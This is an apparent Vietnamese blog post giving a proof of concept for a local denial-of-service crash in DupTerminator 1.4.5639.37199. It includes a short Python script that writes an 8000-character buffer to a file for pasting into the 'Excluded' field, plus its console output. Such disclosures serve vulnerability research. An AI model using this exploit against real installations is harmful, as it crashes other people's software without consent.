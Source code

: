```yaml
---
title: DupTerminator 1.4.5639.37199 - Denial of Service (PoC)
date: 1/6/2021
layout: single

--- 
```

---

[![Language](https://img.shields.io/badge/Lang-python-blue.svg)](https://www.python.org/)

## Mô Tả 

DupTerminator dễ bị điều kiện DoS khi một danh sách dài các ký tự đang được sử dụng trong hộp văn bản trường "Bị loại trừ". Khai thác thành công sẽ khiến ứng dụng ngừng hoạt động. Tôi đã có thể kiểm tra khai thác này trên Windows 10.

--- 

# Mã
## Python
---
```python
# -*- coding: utf-8 -*- 
#!/usr/bin/env python
buffer = "\x41" * 8000

try:
    f = open("test.txt","w")  # Có thể test những file khác
    f.write(buffer)
    f.close()
    print ("File created")
except:
    print ("File cannot be created")
```

---

---
```
C:\Users\Administrator\Documents\python>python 15.py
File created
```
---

## Sau đó file test.txt đã xuất hiện trong tệp Documents



## Chúc May Mắn :D
